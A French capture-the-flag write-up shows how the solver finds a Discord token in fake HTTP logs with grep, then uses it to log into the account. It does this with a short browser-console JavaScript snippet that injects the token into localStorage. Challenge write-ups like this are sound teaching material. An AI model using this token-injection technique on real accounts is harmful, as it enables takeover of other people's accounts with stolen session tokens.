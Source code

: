 # Write up - toktok didi
# # # présentation
On télécharge le [zip fourni](https://limewire.com/d/vtYyd#LK6n71NgMM). [lien obsolète dans quelques jours]
Il contient `script.py`, qui dévoile comment ont été généré les faux fichiers de log.
Le répertoire log contient de nombreux fichier log de requête HTTP.
### trouver le token
L'énoncé nous demande de trouver un token discord.
Dans _log/_, On tente donc la commande `grep -ri "token"` 
```bash
access_log_20241123-022610.log:36.165.234.1 - - [23/Nov/2024:03:19:55 +0200] "GET /api/v9/channels/987654321/messages?token=[TOKEN]&limit=50 HTTP/1.0" 200 2341 "https://discord.com/channels/123456789/987654321" "Mozilla/5.0 (Android 7.1.2; Mobile; rv:54.0) Gecko/54.0 Firefox/54.0"
```
Il n'y a donc même pas de faux token discord ou autres que discord, il était donc très facile à trouver.
### connection au compte discord
Se connecter à un compte discord non-bot à partir son token enfreint les CGU discord, car ça 
C'est uniquement pour le challenge et pour des raisons pédagogique qu'on le fait ici.
On se connecte sur le navigateur](https://discord.com/login)
On injecte ce code javascript dans la console du navigateur (Pour moi, `CTRL + SHIFT + K`).

```javascript
setInterval(() => {
  document.body.appendChild(document.createElement`iframe`).contentWindow.localStorage.token = `"TOKEN"`;
}, 50);

setTimeout(() => {
  location.reload();
}, 100);
```
On est connecté dans le compte discord.
On accède à la description du profil, qui contient le flag. 
